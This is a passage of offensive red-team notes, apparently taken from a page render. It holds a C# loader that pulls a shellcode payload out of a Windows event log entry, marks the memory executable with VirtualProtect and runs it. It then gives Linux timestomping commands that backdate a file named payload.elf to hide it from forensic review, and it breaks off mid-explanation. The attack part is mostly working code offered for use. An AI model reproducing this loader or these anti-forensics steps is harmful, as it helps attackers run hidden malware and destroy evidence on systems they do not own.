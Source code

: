 ```
    private delegate IntPtr ptrShellCode();
    static void Main(string[] args)
    {
        // Create a new EventLog object.
        EventLog theEventLog1 = new EventLog();

        theEventLog1.Log = "Key Management Service";

        // Obtain the Log Entries of the Event Log
        EventLogEntryCollection myEventLogEntryCollection = theEventLog1.Entries;

        byte[] data_array = myEventLogEntryCollection[0].Data;

        Console.WriteLine("*** Found Payload in " + theEventLog1.Log + " ***");
        Console.WriteLine("");
        Console.WriteLine("*** Injecting Payload ***");

        // inject the payload
        GCHandle SCHandle = GCHandle.Alloc(data_array, GCHandleType.Pinned);
        IntPtr SCPointer = SCHandle.AddrOfPinnedObject();
        uint flOldProtect;

        if (VirtualProtect(SCPointer, (UIntPtr)data_array.Length, 0x40, out flOldProtect))
        {
            ptrShellCode sc = (ptrShellCode)Marshal.GetDelegateForFunctionPointer(SCPointer, typeof(ptrShellCode));
            sc();
        }
    }
}
}
```

@BHIS 
Source: https://github.com/roobixx/EventLogForRedTeams

## Linux Timestomping:

Timestomping is an anti-forensics technique which is used to modify the timestamps of a file, often to mimic files that are in the same folder.

Set the last access time of file1 to January 02 15:45 of current year. It’s format is MMDDHHMM.

```
$ touch -c -a 01021545 payload.elf
```

Set last modification date of a file with -m option.

```
$ touch -c -m 01021545 payload.elf
```

Use the -r option and the file we want to inherit its access and modification timestamp. In this example we will use normal.elf last access and modification timestamp for newly created payload.elf.
